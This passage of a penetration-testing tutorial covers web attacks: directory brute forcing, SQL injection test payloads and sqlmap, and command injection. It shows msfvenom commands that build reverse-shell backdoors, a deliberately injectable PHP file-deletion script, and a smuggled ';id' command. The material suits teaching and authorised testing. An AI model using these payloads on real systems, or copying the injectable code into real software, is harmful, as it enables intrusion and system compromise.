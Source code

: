 ## Web / API Attacks
Web / API attacks are related with HTTP service. Attackers try to inject malicious commands, detect applications versions and discover useful contents such as left-over, backup and configuration files, etc.

OWASP is a great source for application security and they made a TOP 10 list to emphasize most common  attacks. [The OWASP Top 10](https://owasp.org/www-project-top-ten/) is a standard awareness document for developers and web application security. It represents a broad consensus about the most critical security risks to web applications.

Some common attacks and explanations:

* __Directory Brute Force__ may reveal hidden content of the web service: default pages, application versions and backend files which are not intended to expose end users, etc. 

	dirb, dirbuster, gobuster, wfuzz, etc. tools can be used.

	Example code:
	```
	$ dirb http://URL/ PossibleFilesList.txt
	$ wfuzz -c file,PossibleFilesList.txt --hc 404 http://URL/FUZZ
	```

	The important part is in here:
    * These tools do not spider the target system and only check for files/folders in the parameter we provided (PossibleFilesList.txt). 
    * We still need to handle session cookies and tokens. Otherwise, the test will be performed over unauthenticated session, but it is still acceptable, because HTTP 403 may indicate the requested URL exists.
    * And we need to analysis out-come of the scan result and know common HTTP responses and the target system behavior:
        - __HTTP 200__: The file is accessible. (Successful response)
        - __HTTP 302__: The request may be redirected to login page. (Redirection messages)
        - __HTTP 403__: The page is not accessible due to lack of permission or authorization. (Content Forbidden)
        - __HTTP 404__: The file does not exist. (Content Not Found)
    
    These codes are common HTTP responses, but some web pages act in a different way. For example, if the requested URL does not exist, the service may reply with a 'HTTP 200' code and indicates the result with a notification text, instead of responding with a 'HTTP 404' code.
    
    Default pages, backup files and application versions can be very useful: 
    * Default pages may lead us to login pages, reveals common configurations and guessable user credentials.
    * Backup files may contain application credentials and other details. Attacker can restore it and see what is going on the application's backend.
    * Also application versions are important, because attackers can search for publicly known vulnerabilities. [Github](https://github.com), [Exploit-DB](https://www.exploit-db.com) and search engines are great sources for CVE records. Additionally, attackers can download same versions of the applications and simulate the target environment to find zero days. 

* A __SQL Injection Attack__ consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

  Some common SQLi control payloads:

  ```
  sql> select username,title,salary from UsersTable where userID = {id};
  
  http://URL?id=1337 or 1=1  -- 	//should always return True
  http://URL?id=1337 and 1=2 -- 	//should always return False
  ```

  Also 'sqlmap' can be very useful and time saver:

  ```
  $ sqlmap -u 'http://URL/?id=1337' -p 'id' --dbs --tables --columns
  ```
  If the 'id' param is vulnerable for SQLi attacks, 'sqlmap' performs various payloads to retrieve database tables, columns, contents, etc.
  

* __Command Injection__ is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

	It is a very serious attack vector because attacker can interact with target operating system directly and run arbitrary commands.
	
	There are a couple different ways to perform it:
	
    * __Uploading malicious files__: Attackers can upload malicious executable files to target system and call them over URL path.

		To create a backdoor, we can use Metasploit framework. Here is an example for 3 different web payloads:
	```
	$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx >reverse.aspx
	$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
	$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw> reverse.jsp
	```

	After uploading the files we create, we should set-up a local listener (meterpreter, ncat) for command prompt interaction.

	Please also note that, these files are executables and the target system may not accept them directly. So attackers can play with file extensions and HTTP content type to bypass restrictions.
	
    * __Modifying target system files__: Web service template files can be a good target. Attacker may modify email template, error pages, etc. and add malicious contents.
    * __Injecting commands__: Some application may require to run OS commands and it raises many concerns. The example below, the web page takes 'filename' parameter and remove the argument file from operating system. However, shell escape chars like '&, |, ;' may lead to execute '__$ rm tmp.txt;id__' commands all together. That means, the client can execute more commands than she/he is supposed to.
		```
		Http Call:
		  http://URL/removeFile.php?filename=tmp.txt;id
					
		removeFile.php content:
		<?php
		  print("Please specify the name of the file to delete");
		  print("<p>");
		  $file=$_GET['filename'];
		  system("rm $file");
		?>
		```

  All these commands will be run with the target service's privilege and that shows again the service accounts should run with minimum privileges to reduce attack surfaces.
